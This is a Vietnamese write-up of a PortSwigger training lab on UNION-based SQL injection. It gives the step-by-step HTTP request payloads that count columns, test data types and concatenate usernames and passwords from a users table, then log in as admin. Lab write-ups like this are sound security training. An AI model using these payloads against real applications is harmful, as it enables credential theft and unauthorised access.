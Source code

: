 # [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để lấy dữ liệu từ bảng khác. (kiểu dữ liệu bảng gốc không tương thích với bản khác)

quá trình:
1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
	- Kết quả: ![8fe46860956051009997c1633e8f4cd8.png](../../../../../../_resources/8fe46860956051009997c1633e8f4cd8.png)
	- Lỗi từ số 3 => có 2 cột.
4. Dựa vào đề bài: The database contains a different table called `users`, with columns called `username` and `password`. Tạo SQLi:
	- Cùng số cột với bảng của query gốc =>
	- `GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1`
Kết quả: ![94081d0ceb49c357f31c87b082d407cf.png](../../../../../../_resources/94081d0ceb49c357f31c87b082d407cf.png)
5. Kiểm tra kiểu dữ liệu của 2 cột trong bảng gốc => Cột 1 không phải kiểu dữ liệu string: ![3368f793ebb3f1d6baddbff1d9661fa2.png](../../../../../../_resources/3368f793ebb3f1d6baddbff1d9661fa2.png)
6. Sử dụng hàm concat để ghép tên tài khoản và mật khẩu vào rồi cùng trả về ở cột 2:
`GET /filter?category='UNION+SELECT+NULL,concat(username,',',password)+FROM+users-- HTTP/1.1`
Kết quả: ![a104cd41b903b5f4a8cdaec614eba5ad.png](../../../../../../_resources/a104cd41b903b5f4a8cdaec614eba5ad.png)
7. Đăng nhập với tài khoản admin => Lab Solved